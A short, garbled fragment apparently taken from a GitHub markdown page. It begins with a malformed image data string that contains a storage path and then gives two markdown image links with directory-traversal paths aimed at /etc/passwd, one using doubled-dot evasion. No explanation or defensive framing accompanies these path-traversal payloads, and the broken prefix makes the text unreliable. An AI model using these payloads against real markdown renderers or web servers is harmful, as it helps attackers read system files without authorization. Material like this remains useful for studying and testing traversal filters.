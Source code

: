 ![c](....//....//....//....//....//....//....//etc//passwd)
![c](../../../..//..//../../../../../etc/passwd)

